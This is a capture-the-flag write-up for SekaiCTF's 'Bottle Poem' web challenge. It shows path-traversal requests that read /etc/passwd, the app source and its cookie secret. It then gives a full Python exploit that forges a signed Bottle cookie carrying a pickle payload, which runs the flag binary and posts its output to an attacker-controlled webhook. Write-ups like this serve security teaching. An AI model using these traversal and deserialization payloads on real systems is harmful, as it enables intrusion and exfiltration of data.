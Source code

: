 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "Bottle Poem"
date: 2022-11-03 10:00:00
tags: [SekaiCTF]
class: post-template
subclass: 'post'
author: Ace314159
---
```


For this web challenge, we had to utilize two different exploits to get the flag -- and one of them wasn't a web exploit!

## Setup

We're presented with a website where we can select different poems to view. When we click on a poem, we can see that the URL contains the name of a text file: `/show?id=spring.txt`.

## Local File Exclusion (LFI)

The first thing that comes to mind when we can access arbitrary files on a web server is Local File Inclusion (LFI). We tried it out by trying to access /etc/passwd `/show?id=../../etc/passwd`. We were successful! 

Next, we wanted to get the source code of the website for further analysis of where the flag could be. After some Googling, we found that we can read the `/proc/self/cmdline` file to get the command line arguments of the current process. This yielded `"python3", "-u", "/app/app.py"`. Thus, we can access `app.py` using `/show?id=../../app/app.py`, giving us this file:

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

## Getting Trolled

The code shows that there's an admin template that only an admin user can access. However, since we have LFI, we can just access the template directly: `/show?id=../../app/views/admin.html`. This gives us the template

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
    Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

No flag :(

## Pickle Fun

We had to keep looking. The next thing that came to mind was seeing if we could control the `session` variable. This wouldn't help us with the admin page, since we already know the admin template is useless, but maybe we can do something else with it. Looking at the source of `get_cookie`, we see that it calls `cookie_decode`, which looks like this:

```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

`pickle`! The code uses pickle to load arbitrary data from the cookie. This gives us Remote Code Execution (RCE), which we can use to search for the flag. The way we can get RCE using pickle is by pickling a class with the `__reduce__` method. It returns a tuple, where the first value is a function, and the second value is the arguments passed into the function. When `pickle.loads` is called, it will call the function with the arguments. We can use this in conjunction with the python `exec` function to get RCE.

Our final exploit just runs the flag executable (which we found using the same exploit strategy), and then sends the output as a payload to a webhook URL we control. (You can create webhook URLs with a site like [RequestBin](https://requestbin.com/).) Here's the class that we used in our final exploit:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""

class RCE:
    def __reduce__(self):
        return exec, (code,)
```


However, before we get RCE on the server, we need to find the secret the session cookie is encrypted with. Without that, we can't change the cookie. The secret is imported at the top of the web server file, so could we just load the imported file using LFI? Let's take a look at `/show?id=../../app/config/secret.py`:

```python
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Perfect! Now we just have to construct our payload! Looking near `cookie_decode`, we see `cookie_encode`, which looks like this:

```python
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, -1))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
```

After stealing that code, we can complete our exploit.

```python
data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

And we have the flag! Here's the full code:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""


class RCE:
    def __reduce__(self):
        return exec, (code,)


data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```